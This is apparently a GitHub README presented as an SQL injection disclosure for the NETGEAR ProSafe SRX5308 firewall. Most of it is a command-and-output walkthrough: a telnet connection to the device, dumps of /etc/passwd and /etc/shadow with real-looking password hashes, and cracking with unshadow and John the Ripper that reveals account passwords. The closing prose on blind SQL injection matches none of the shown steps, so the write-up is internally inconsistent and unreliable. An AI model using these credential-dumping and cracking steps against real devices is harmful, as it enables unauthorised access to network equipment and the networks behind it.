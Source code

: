 # NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308 SQL Injection Vulnerability

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.jpg" class="shrinkToFit" width="700" height="284">

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.png" class="shrinkToFit" width="700" height="284">

* The NETGEAR ProSAFE SRX5308 Quad WAN Gigabit SSL VPN Firewall is perfect for even the most demanding business networks. The SRX5308 features a hardware-* accelerated data flow architecture that allows for 1 Gbps of stateful firewall throughput.

* telnet 192.168.1.2 520

* cat /etc/passwd

root:x:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:x:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:x:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* cat /etc/shadow

daemon:*:13189:0:99999:7:::
root:CxqJynrkPOtP.:12374:0:99999:7:::
admin:m1LVojhaR1U5Y:11582:0:99999:7:::
guest:K7Vjga.vILkVA:11582:0:99999:7:::

* root@kali:~$ unshadow /home/root/Desktop/passwd /home/root/Desktop/shadow > /home/root/Desktop/status

root:CxqJynrkPOtP.:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:m1LVojhaR1U5Y:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:K7Vjga.vILkVA:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* root@kali:~$ john /home/root/Desktop/status

* Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])

* Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

* password (showid)

* password (guest)

SQL injection is a type of vulnerability that occurs when a malicious user is able to input untrusted data into an application's SQL query, allowing them to execute arbitrary SQL commands on the database. Boolean-based blind SQL injection is a type of SQL injection that allows an attacker to determine the truth of a statement by injecting specific inputs and observing the response.

In the case of the NETGEAR ProSafe™ Gigabit Quad WAN SSL VPN Firewall SRX5308, the vulnerability exists on the login page, where the device's authentication mechanism is vulnerable to a boolean-based blind SQL injection attack. An attacker could exploit this vulnerability by injecting malicious SQL code into the login form's fields, such as the username or password field, and observing the response from the device.

The attacker could use this vulnerability to extract sensitive information from the device's database, such as user credentials, and even gain complete control over the device. It could also allow an attacker to access the internal network behind the firewall and potentially compromise other devices on the network.

To prevent this vulnerability, it is important to keep the device updated with the latest security patches and to properly validate user input on the login page. It is also important to monitor the device's logs for any suspicious activity and to use a strong and unique password for the device's administrator account.

It's important to note that this vulnerability may have been already fixed by the manufacturer and if you are using this device, it's important to contact NETGEAR for a patch or a solution for this





